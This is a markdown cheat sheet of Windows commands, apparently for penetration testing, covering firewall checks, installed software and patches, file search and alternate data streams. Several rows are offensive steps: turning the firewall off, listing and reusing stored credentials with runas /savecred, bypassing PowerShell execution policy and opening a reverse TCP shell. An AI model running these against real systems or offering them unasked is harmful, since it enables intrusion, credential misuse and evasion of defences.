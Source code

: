 ## Windows Commands

|:---	|---:|
|commands 	|description|
|:---	|---:|
|`netsh advfirewall show allprofiles state`|windows firewall check status|
|:---	|---:|
|`netsh advfirewall show currentprofile`|windows firewall show profile|
|:---	|---:|
|`netsh advfirewall firewall show rule name=all`|windows firewall show rules|
|:---	|---:|
|`netsh advfirewall set allprofiles state off`|windows firewall disable|
|:---	|---:|
|`netsh advfirewall set allprofiles state on`|windows firewall enable|
|:---	|---:|
|`wmic product get name, version, vendor`|list installed applications|
|:---	|---:|
|`wmic qfe get Caption, Description, HotFixID, InstalledOn`|list installed patch|
|:---	|---:|
|`where /R C:\ file.exe`|search file|
|:---	|---:|
|`type file.txt | findstr /si "KB5013624"`|search content|
|:---	|---:|
|`cmdkey /list`|show stored credentials|
|:---	|---:|
|`C:\Windows\System32\runas.exe /user:<stored_user> /savecred "C:\Windows\System32\cmd.exe /c <command>"`|leverage stored credentials|
|:---	|---:|
|`powershell -ep bypass [script_path]` \\ `powershell -ep unstricted [script_path]`|powershell change execution policy|
|:---	|---:|
|`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 8080`|powershell reverse tcp|
|:---	|---:|
|`echo secrettext > file.txt:showme`|create file with alternate data stream(ADS)|
|:---	|---:|
|`dir /R`|inspect file with alternative data stream(ADS) content|
|:---	|---:|



